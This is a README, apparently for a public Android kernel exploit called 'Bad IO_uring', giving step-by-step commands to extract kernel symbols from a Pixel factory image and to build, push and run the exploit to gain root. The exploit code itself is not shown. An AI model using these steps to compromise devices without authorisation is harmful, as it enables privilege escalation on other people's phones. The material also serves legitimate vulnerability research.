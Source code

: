 # Bad IO_uring
## How to use the exploit
The exploit is written to support different versions of kernels. In order to port the exploit to a different kernel, you need to extract the symbol file of the target kernel.

The kernel could be extract from the factory image of the phone. For Pixels, download the factory image [here](https://developers.google.com/android/images).

After downloading the image, extract the image to get `boot.img` file. `boot.img` can be extracted with `tools/unpack_bootimg.py`.
```bash
python3 tools/unpack_bootimg.py --boot_img boot.img --out out
```
You will see the kernel at `out/kernel`


Now, with the kernel image, we can use [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) to extract kernel symbols from it.
```
./tools/vmlinux-to-elf/kallsyms-finder out/kernel > pixel.kallsyms
```

You have to make sure the `Version string` extracted in the symbol matches your phone's kernel version. The kernel version of the phone could be looked up through `adb`. For example,

```
sh-3.2$ adb shell
oriole:/ $ uname -a
Linux localhost 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022 aarch64
```
matches 
```
[+] Version string: Linux version 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 (build-user@build-host) (Android (7284624, based on r416183b) clang version 12.0.5 (https://android.googlesource.com/toolchain/llvm-project c935d99d7cf2016289302412d708641d52d2f7ee), LLD 12.0.5 (/buildbot/src/android/llvm-toolchain/out/llvm-project/lld c935d99d7cf2016289302412d708641d52d2f7ee)) #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022
```

Now you can push the exploit and the symbol file to the phone and get it rooted with the following commands.

```bash
make
adb push exp pixel.kallsyms /data/local/tmp
adb shell
cd /data/local/tmp
./exp pixel.kallsyms
```

